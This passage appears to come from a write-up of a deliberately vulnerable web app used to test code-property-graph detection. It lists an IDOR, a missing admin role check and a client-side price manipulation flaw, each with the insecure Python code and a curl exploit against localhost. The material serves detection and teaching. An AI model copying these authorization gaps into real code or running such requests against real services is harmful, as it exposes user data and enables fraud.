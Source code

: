 **Exploit**:
```bash
# User bob (id=3) accesses admin profile (id=1)
curl http://localhost:8888/api/user/1/profile \
  -H "Cookie: session=bob_session_token"
```

**Result**: User accesses another user's data

**CPG Detection**: User-controlled parameter reaches database without authorization check

---

### 4. Missing Authorization (Admin Endpoint)

**Location**: `/api/admin/users` (GET)

**Vulnerable Code**:
```python
def list_all_users():
    if 'user_id' not in session:  # Only checks authentication
        return 401
    # MISSING: if session.get('role') != 'admin': return 403
    return jsonify({'users': all_users})
```

**Exploit**:
```bash
# Regular user alice accesses admin endpoint
curl http://localhost:8888/api/admin/users \
  -H "Cookie: session=alice_session_token"
```

**Result**: Regular user accesses admin-only data

**CPG Detection**: Sensitive operation (admin endpoint) without role check

---

### 5. Business Logic Flaw (Price Manipulation)

**Location**: `/api/checkout` (POST)

**Vulnerable Code**:
```python
def checkout():
    items = request.json.get('items', [])
    total = 0
    for item in items:
        total += item['price'] * item['quantity']  # Uses CLIENT price!
    processPayment(total)
```

**Exploit**:
```bash
curl -X POST http://localhost:8888/api/checkout \
  -H "Content-Type: application/json" \
  -H "Cookie: session=alice_session" \
  -d '{
    "items": [
      {"id": 1, "name": "Laptop", "price": 0.01, "quantity": 100}
    ]
  }'
```
